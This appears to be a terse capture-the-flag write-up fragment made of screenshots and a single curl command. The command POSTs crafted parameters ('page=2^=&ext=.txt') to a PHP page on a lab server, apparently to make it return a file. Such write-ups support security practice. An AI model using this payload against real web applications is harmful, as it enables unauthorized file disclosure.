 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2bb4ab2a-e824-472d-b32d-476139e38f98)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/12eac8e0-5448-4b9f-a8f8-648f99fbca0c)

curl -L -X POST --data 'page=2^=&ext=.txt' http://62.173.140.174:16028/index.php 

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d9aafeb9-bd10-4f93-b2b3-13d15f87180a)



